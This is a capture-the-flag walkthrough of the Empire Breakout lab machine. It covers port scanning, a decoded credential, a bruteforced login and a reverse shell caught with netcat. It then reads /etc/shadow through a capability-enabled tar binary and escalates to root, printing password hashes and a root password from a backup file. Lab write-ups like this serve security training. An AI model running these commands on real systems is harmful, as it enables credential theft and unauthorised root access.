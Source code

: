 ```yaml
---
title: Empire Breakout
categories: [Proving Grounds Play]
tags: [PrivEsc, SUIDs]
image:
  path: https://i.ytimg.com/vi/avxULb5lELg/maxresdefault.jpg
  alt:  Empire breakout Machine 🖥️
---
```



## **Description ⤵️**

> 💡 This machine consists of username enumeration through bruteforce then access the webshell after that play with SUIDs comamds for root !
{: .prompt-tip }


### Let’s find the IP Address first >>

```bash
IP : 192.168.164.238
```

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Empire-breakout]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 192.168.164.238
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-15 14:22 IST
Stats: 0:09:20 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 39.94% done; ETC: 14:46 (0:14:02 remaining)
Warning: 192.168.164.238 giving up on port because retransmission cap hit (6).
Nmap scan report for 192.168.164.238
Host is up (0.30s latency).
Not shown: 65510 closed tcp ports (reset)
PORT      STATE    SERVICE    VERSION
80/tcp    open     http       Apache httpd 2.4.51 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.51 (Debian)
2904/tcp  filtered m2ua
4078/tcp  filtered cssp
9250/tcp  filtered unknown
10000/tcp open     tcpwrapped
12407/tcp filtered unknown
12665/tcp filtered unknown
14359/tcp filtered unknown
14997/tcp filtered unknown
16032/tcp filtered unknown
17092/tcp filtered unknown
19944/tcp filtered unknown
20000/tcp open     http       MiniServ 1.830 (Webmin httpd)
|_http-server-header: MiniServ/1.830
|_http-title: 200 &mdash; Document follows
22474/tcp filtered unknown
26283/tcp filtered unknown
29720/tcp filtered unknown
31306/tcp filtered unknown
39871/tcp filtered unknown
41579/tcp filtered unknown
55786/tcp filtered unknown
57478/tcp filtered unknown
57725/tcp filtered unknown
62844/tcp filtered unknown
63324/tcp filtered unknown
63436/tcp filtered unknown

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1374.00 seconds
```

---

## Web Enumeration ⤵️

Now this machine runs an Apache server After checking the source code I got this →

![Untitled](/Vulnhub-Files/img/Empire-breakout/Untitled.png)

After decoding this Brainfuck encoding I got this →

![Untitled](/Vulnhub-Files/img/Empire-breakout/Untitled%201.png)

```bash
.2uqPEfj3D<P'a-3
```

Now I also see port 10000 and 20000 open as http-login page lets see →

![Untitled](/Vulnhub-Files/img/Empire-breakout/Untitled%202.png)

![Untitled](/Vulnhub-Files/img/Empire-breakout/Untitled%203.png)

Now after running burpsuite for username bruteforce I got this on port 20000 →

```bash
cyber : .2uqPEfj3D<P'a-3
```

After Getting password when I logged into the website →

![Untitled](/Vulnhub-Files/img/Empire-breakout/Untitled%204.png)

Now I got access for the home directory of cyber user as a web interface →

![Untitled](/Vulnhub-Files/img/Empire-breakout/Untitled%205.png)

Now I clicked into the webshell option on top right side and tried reverse shell →

![Untitled](/Vulnhub-Files/img/Empire-breakout/Untitled%206.png)

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Empire-breakout]
└─$ nc -lvp 4444
listening on [any] 4444 ...
192.168.164.238: inverse host lookup failed: Unknown host
connect to [192.168.45.219] from (UNKNOWN) [192.168.164.238] 33992
python -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
cyber@breakout:~$ whoami
whoami
cyber
cyber@breakout:~$ id
id
uid=1000(cyber) gid=1000(cyber) groups=1000(cyber),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
cyber@breakout:~$
```

Lets see the files →

```bash
cyber@breakout:~$ ls -al
ls -al
total 572
drwxr-xr-x  8 cyber cyber   4096 Jul 15 06:16 .
drwxr-xr-x  3 root  root    4096 Oct 19  2021 ..
-rw-------  1 cyber cyber      0 Oct 20  2021 .bash_history
-rw-r--r--  1 cyber cyber    220 Oct 19  2021 .bash_logout
-rw-r--r--  1 cyber cyber   3526 Oct 19  2021 .bashrc
drwxr-xr-x  2 cyber cyber   4096 Oct 19  2021 .filemin
drwx------  2 cyber cyber   4096 Oct 19  2021 .gnupg
drwxr-xr-x  3 cyber cyber   4096 Oct 19  2021 .local
-rw-r--r--  1 root  root      33 Jul 15 04:49 local.txt
-rw-r--r--  1 cyber cyber    807 Oct 19  2021 .profile
-rw-r--r--  1 cyber cyber   3464 Jul 15 06:16 shell.php
drwx------  2 cyber cyber   4096 Oct 19  2021 .spamassassin
-rwxr-xr-x  1 root  root  531928 Oct 19  2021 tar
drwxr-xr-x  2 cyber cyber   4096 Jul 15 06:23 .tmp
drwx------ 17 cyber cyber   4096 Jul 15 06:12 .usermin
cyber@breakout:~$ cat local.txt	
cat local.txt
acff2c9656634fdd92b71c7c91d1e01c
cyber@breakout:~$
```

while checking capabilities I got tar →

```bash
cyber@breakout:/$ getcap -r / 2>/dev/null
/home/cyber/tar cap_dac_read_search=ep
/usr/bin/ping cap_net_raw=ep
cyber@breakout:/$
```

If I can’t be root directly through executing the payload of tar into the shell so lets try to read the content of root priviledge files through this payload →

```bash
File read >

LFILE=file_to_read
tar xf "$LFILE" -I '/bin/sh -c "cat 1>&2"'
```

```bash
cyber@breakout:~$ ./tar xf /etc/shadow -I '/bin/sh -c "cat 1>&2"'      
root:$y$j9T$eJzu0TYuqGwZThJJzbP6o.$Xs23PV9/MdV33YMgceRv1Ic6anL08XclYLE9UX1WiJ6:19381:0:99999:7:::
daemon:*:18919:0:99999:7:::
bin:*:18919:0:99999:7:::
sys:*:18919:0:99999:7:::
sync:*:18919:0:99999:7:::
games:*:18919:0:99999:7:::
man:*:18919:0:99999:7:::
lp:*:18919:0:99999:7:::
mail:*:18919:0:99999:7:::
news:*:18919:0:99999:7:::
uucp:*:18919:0:99999:7:::
proxy:*:18919:0:99999:7:::
www-data:*:18919:0:99999:7:::
backup:*:18919:0:99999:7:::
list:*:18919:0:99999:7:::
irc:*:18919:0:99999:7:::
gnats:*:18919:0:99999:7:::
nobody:*:18919:0:99999:7:::
_apt:*:18919:0:99999:7:::
systemd-timesync:*:18919:0:99999:7:::
systemd-network:*:18919:0:99999:7:::
systemd-resolve:*:18919:0:99999:7:::
messagebus:*:18919:0:99999:7:::
cyber:$y$j9T$x6sDj5S/H0RH4IGhi0c6x0$mIPyCIactTA3/gxTaI7zctfCt2.EOGXTOW4X9efAVW4:18919:0:99999:7:::
systemd-coredump:!*:18919::::::
cyber@breakout:~$
```

Now while enumeration I also found a file named as .old.pass.bak but it has root permission so lets try to open that file →

```bash
cyber@breakout:/var/backups$ ls -al                                     
total 484
drwxr-xr-x  2 root root   4096 Dec  8  2022 .
drwxr-xr-x 14 root root   4096 Oct 19  2021 ..
-rw-r--r--  1 root root  40960 Dec  8  2022 alternatives.tar.0
-rw-r--r--  1 root root  12674 Nov 17  2022 apt.extended_states.0
-rw-r--r--  1 root root   1467 Oct 19  2021 apt.extended_states.1.gz
-rw-r--r--  1 root root      0 Dec  8  2022 dpkg.arch.0
-rw-r--r--  1 root root    186 Oct 19  2021 dpkg.diversions.0
-rw-r--r--  1 root root    135 Oct 19  2021 dpkg.statoverride.0
-rw-r--r--  1 root root 413488 Oct 19  2021 dpkg.status.0
-rw-------  1 root root     17 Oct 20  2021 .old_pass.bak
cyber@breakout:/var/backups$
```

```bash
cyber@breakout:~$ ./tar xf /var/backups/.old_pass.bak -I '/bin/sh -c "cat 1>&2"'
Ts&4&YurgtRX(=~h
cyber@breakout:~$
```

Now lets use this string value as a password of this root user →

```bash
cyber@breakout:~$ su root
Password: 
root@breakout:/home/cyber# cd /root
root@breakout:~# whoami
root
root@breakout:~# id
uid=0(root) gid=0(root) groups=0(root)
root@breakout:~# ls -al
total 40
drwx------  6 root root 4096 Jul 15 04:50 .
drwxr-xr-x 18 root root 4096 Oct 19  2021 ..
-rw-------  1 root root 1010 Dec 14  2022 .bash_history
-rw-r--r--  1 root root  571 Apr 10  2021 .bashrc
drwxr-xr-x  3 root root 4096 Oct 19  2021 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r--r--  1 root root   33 Jul 15 04:50 proof.txt
drwx------  2 root root 4096 Oct 19  2021 .spamassassin
drwxr-xr-x  2 root root 4096 Oct 19  2021 .tmp
drwx------  6 root root 4096 Oct 19  2021 .usermin
root@breakout:~# cat proof.txt
d433cb8a51a9d8e36e928a564f71d053
root@breakout:~#
```